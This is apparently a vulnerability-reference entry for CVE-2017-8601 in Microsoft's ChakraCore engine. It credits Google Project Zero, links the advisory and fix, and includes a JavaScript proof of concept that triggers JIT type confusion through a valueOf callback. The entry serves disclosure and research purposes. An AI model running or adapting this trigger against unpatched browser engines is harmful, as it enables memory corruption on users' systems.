# CVE-2017-8601

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
'use strict';

function func(a, b, c) {
    a[0] = 1.2;
    b[0] = c;
    a[1] = 2.2;
    a[0] = 2.3023e-320;
}

function main() {
    let a = [1.1, 2.2];
    let b = new Uint32Array(100);

    for (let i = 0; i < 0x1000; i++)
        func(a, b, {});  // <<---------- REPLACED

    func(a, b, {valueOf: () => {
        a[0] = {};

        return 0;
    }});

    a[0].toString();
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8601)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1316)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/9326bda18a18a810b59f0ef39c0eabc1c8b6406f)
